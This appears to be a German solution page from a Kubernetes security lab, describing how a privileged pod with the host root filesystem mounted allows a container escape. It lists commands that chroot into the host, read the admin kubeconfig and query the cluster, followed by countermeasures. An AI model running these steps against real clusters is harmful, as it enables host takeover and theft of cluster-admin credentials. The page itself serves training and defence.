



# Szenario 04 – Container Escape to the Host System

- **Kategorie**: Container Escape & Runtime
- **Einstieg**: `http://127.0.0.1:1233` (Pod `app=system-monitor`)

## Kurzinfo & Risiko
Der Pod `app=system-monitor` läuft privilegiert und bindet das komplette Root-Dateisystem des Host-Nodes über `hostPath` unter `/host-system` ein. Dadurch ist ein vollständiger Container-Ausbruch inklusive Zugriff auf die Cluster-Administration möglich.



## Solution
1. Capabilities und Mounts im Container prüfen:
   ```bash
   capsh --print
   mount
   ls /host-system/
   ```
   
2. Per `chroot` auf das Host-Dateisystem wechseln, Host-Pods auflisten und die Admin-Kubeconfig auslesen:
   ```bash
   chroot /host-system bash
   crictl pods
   cat /etc/kubernetes/admin.conf
   kubectl --kubeconfig /etc/kubernetes/admin.conf get all -n kube-system
   kubectl --kubeconfig /etc/kubernetes/admin.conf get nodes
   ```



## Gegenmaßnahmen
- Privilegierte Container (`privileged: true`) und `hostPath`-Mounts verbieten.
- Pod Security Standards (`restricted`) auf Namespace-Ebene erzwingen.

---
[← Vorheriges Szenario](./scenario-03.md) | [Solutions-Übersicht](./README.md) | [Nächstes Szenario →](./scenario-05.md)
